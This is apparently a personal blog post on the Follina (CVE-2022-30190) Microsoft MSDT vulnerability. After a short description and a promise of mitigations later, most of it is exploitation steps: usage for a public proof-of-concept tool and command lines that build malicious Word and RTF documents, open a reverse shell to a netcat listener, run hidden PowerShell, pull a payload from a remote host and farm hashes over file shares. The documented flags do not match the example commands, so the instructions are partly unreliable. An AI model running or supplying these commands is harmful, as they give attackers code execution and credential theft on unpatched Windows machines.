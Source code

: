 ```yaml
---
title: "Follina Vulnerability"
date: 2022-08-20T08:06:25+06:00
description: New Vulnerability Exploited in the Wild
menu:
  sidebar:
    name: Follina
    identifier: follina-vulneraility
    parent: vulnerabilities
    weight: 30
author:
  name: Vincent M
  image: /images/author/sila.png
tags: ["Basic", "InfoSec"]
categories: ["InfoSec"]
---
```

### CVE-2022-30190 Microsoft MSDT Vulnerability

A new vulnerability has been discovered in Windows that is critical and can be exploited by attackers.

The vulnerability is called “Follina”, and it affects all versions of Windows from Vista to Windows 10.

This vulnerability is known to have been exploited in the wild, but Microsoft has already released a patch for this vulnerability.

I will be going into an in depth how to guide on how to Exploit the Flaw in my next post to showcase how easy it is for attackers out there.

I will also provide measures of mitigating it with the simplest being updating your windows OS as the vulnerability has been patched

DISCLAIMER: All Information covered in my posts are for Educational purposes ONLY.

### POC

Proof of concept code has been hosted on github. Clone the repo below

>https://github.com/JohnHammond/msdt-follina.git

This POC attacks MSDT using a Microsoft Word doc as a delivery mechanism to stage a payload. In this case the payload is calc

```
 USAGE
 usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

 options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
Running the following command generates a word document with reverse shell to a nectat listener on port 9001

> python3 follina.py -r 9001

Different options can be passed to the code for a number of scenario attacks
```bash

#Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

#On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

#Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

#Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

#Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

#Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```
